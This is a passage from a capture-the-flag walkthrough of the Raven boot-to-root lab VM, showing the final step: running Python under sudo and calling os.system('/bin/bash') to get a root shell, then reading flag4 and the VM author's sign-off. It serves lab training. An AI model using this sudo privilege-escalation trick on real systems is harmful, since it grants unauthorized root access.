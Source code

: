 ```
$ sudo python
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("/bin/bash")
root@Raven:/home# whoami
root
```
<p>
And with that, we get a root shell. Navigate to the root directory to grab flag 4 and that's the box. 
</p>

```
root@Raven:/# cd root
root@Raven:~# ls
flag4.txt
root@Raven:~# cat flag4.txt
______                      
| ___ \                     
| |_/ /__ ___   _____ _ __  
|    // _` \ \ / / _ \ '_ \ 
| |\ \ (_| |\ V /  __/ | | |
\_| \_\__,_| \_/ \___|_| |_|

                            
flag4{715dea6c055b9fe3337544932f2941ce}

CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought: 

@mccannwj / wjmccann.github.io
```
